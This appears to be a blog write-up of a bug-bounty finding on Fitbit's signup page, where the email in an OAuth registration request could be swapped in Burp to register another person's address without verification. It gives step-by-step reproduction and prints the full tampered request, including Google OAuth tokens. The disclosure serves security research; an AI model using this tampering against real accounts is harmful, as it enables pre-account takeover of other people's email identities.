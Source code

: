+++
title = " Unauthorization of Oauth Token Leads to Pre Account Takeover without Verifying"
date = "2022-03-08"
author = "0xdroopy"


+++

## Summary 

On Fitbit official website I was able to register with any account without verifying the email because of the vulnerability Broken Authentication. This was due to the unauthorization of the Oauth token with respect to the email address which was being transferred to the server.

{{< image src="https://miro.medium.com/max/1400/1*3z3zxJj_GzArgT2SIy529w.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## Functionalities
On fitbit.com there are 2 functionalities to register in the account. One is normal functionality of email address and password whereas other is the functionality of Oauth by which you can register using your google account. In the Oauth functionality, after logging through you would be directly be logged in to the account. Whereas in the normal functionality, you have to verify the email in order to go for further registration of details.
  
### Functionalities On Register Page
{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

### When Try to Register Using Normal Functionality
{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## The Unauthorization of Oauth Token

By logging through the Oauth Functionality, accounts.google.com sends the Oauth Token to the website who requested to be logged in using Google Functionality. Then the website authorize the token and thus extracts the email address fromit. The authorization of the Oauth Token and the Email Address go step by step till the end of the registration of the account. At the end the server uses the cookies same as the oauth token being provided for further logins.

{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## Steps To Reproduce

1) Make Two New Google Accounts and name them as Account 1 and Account 2.

2) Go to https://accounts.fitbit.com/signup and now login with the Account 1 using Google Oauth Functionality.

3) Now after clicking next put your height , weight etc. and Start intercepting the requests.

4) After that Click Submit and in the burp suite change the email address from Account 1 to Account 2.
```json
email=testemailaddressforfit1%40gmail.com&password=asuidahsdhaw&birthday=2006-03-08&emailSubscribe=true&firstName=Test&lastName=Account&gender=MALE&height=185.42&heightUnit=en_US&weight=65&weightUnit=METRIC&locale=en_US&localeLang=en&localeCountry=United+States&timezone=Asia%2FKolkata&legalTermsAccepted=true&googleUID=107045151452751939515&googleAccessToken=ya29.A0ARrdaM8eNFf87_O5ah4jQzQLQl8J7Guj7lcAvJul7Sae0OAAniUF-OSCYN4dbXNeLFxMNk-8EyfhbdiT9BlbIgujPCDPK3qqq0nWNjg_IUuEjAmTQgyZpdk6MQQsVzeTHEugRxsqFxjmXi8OEvxiC1bkOr4y&googleIdToken=eyJhbGciOiJSUzI1NiIsImtpZCI6ImQ2M2RiZTczYWFkODhjODU0ZGUwZDhkNmMwMTRjMzZkYzI1YzQyOTIiLCJ0eXAiOiJKV1QifQ.eyJpc3MiOiJhY2NvdW50cy5nb29nbGUuY29tIiwiYXpwIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwiYXVkIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwic3ViIjoiMTA3MDQ1MTUxNDUyNzUxOTM5NTE1IiwiZW1haWwiOiJ0ZXN0ZW1haWxhZGRyZXNzZm9yZml0MUBnbWFpbC5jb20iLCJlbWFpbF92ZXJpZmllZCI6dHJ1ZSwiYXRfaGFzaCI6IlpyQ2YyR09ZSVM3MENxVGszRlE1TkEiLCJpYXQiOjE2NDY3NDUzMDQsImV4cCI6MTY0Njc0ODkwNH0.qipJa4CC2UDuR8hzW0mIRtJ1-w3xPXZlY_UriCsCK86PcjrZYQ0O3W3FjXYYCel-Vv2LZg_20Qa7sb1vVgy5lceQR7QnUSWBMZoCUEkqaXfTZ8NAyF_Bm3inneDJRkLPuQxwJQRbA0PCqUew7b-Z2OZ10KeqzJqalYstjkAJMXnbd_UTwGdx8d8cdQxJ3dni-5boPvejaoj2qkOzriUYaqrQNZN3Z-UrE_5dV8ux98zAK8ejK3BRquZ0mPWpf_p48QrMYKec7QLahH4rDE1wq4tdQPJz5EZLtcEAwx9IlNKijzjyhKPSdNjRn7zlPxPL5Pqcf7e99gToq5Bjr0GK3w&client_id=228TQF
```
To -
```json
email=testemailaddressforfit2%40gmail.com&password=asuidahsdhaw&birthday=2006-03-08&emailSubscribe=true&firstName=Test&lastName=Account&gender=MALE&height=185.42&heightUnit=en_US&weight=65&weightUnit=METRIC&locale=en_US&localeLang=en&localeCountry=United+States&timezone=Asia%2FKolkata&legalTermsAccepted=true&googleUID=107045151452751939515&googleAccessToken=ya29.A0ARrdaM8eNFf87_O5ah4jQzQLQl8J7Guj7lcAvJul7Sae0OAAniUF-OSCYN4dbXNeLFxMNk-8EyfhbdiT9BlbIgujPCDPK3qqq0nWNjg_IUuEjAmTQgyZpdk6MQQsVzeTHEugRxsqFxjmXi8OEvxiC1bkOr4y&googleIdToken=eyJhbGciOiJSUzI1NiIsImtpZCI6ImQ2M2RiZTczYWFkODhjODU0ZGUwZDhkNmMwMTRjMzZkYzI1YzQyOTIiLCJ0eXAiOiJKV1QifQ.eyJpc3MiOiJhY2NvdW50cy5nb29nbGUuY29tIiwiYXpwIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwiYXVkIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwic3ViIjoiMTA3MDQ1MTUxNDUyNzUxOTM5NTE1IiwiZW1haWwiOiJ0ZXN0ZW1haWxhZGRyZXNzZm9yZml0MUBnbWFpbC5jb20iLCJlbWFpbF92ZXJpZmllZCI6dHJ1ZSwiYXRfaGFzaCI6IlpyQ2YyR09ZSVM3MENxVGszRlE1TkEiLCJpYXQiOjE2NDY3NDUzMDQsImV4cCI6MTY0Njc0ODkwNH0.qipJa4CC2UDuR8hzW0mIRtJ1-w3xPXZlY_UriCsCK86PcjrZYQ0O3W3FjXYYCel-Vv2LZg_20Qa7sb1vVgy5lceQR7QnUSWBMZoCUEkqaXfTZ8NAyF_Bm3inneDJRkLPuQxwJQRbA0PCqUew7b-Z2OZ10KeqzJqalYstjkAJMXnbd_UTwGdx8d8cdQxJ3dni-5boPvejaoj2qkOzriUYaqrQNZN3Z-UrE_5dV8ux98zAK8ejK3BRquZ0mPWpf_p48QrMYKec7QLahH4rDE1wq4tdQPJz5EZLtcEAwx9IlNKijzjyhKPSdNjRn7zlPxPL5Pqcf7e99gToq5Bjr0GK3w&client_id=228TQF
```

5) After Forwarding the request , you would be successfully signed up with the Account 2 Email address without verifying.

{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

 
## Demonstration

{{<iframe width="420" height="315"
src="https://www.youtube.com/embed/DjbVqwm3DtI">
</iframe>}}
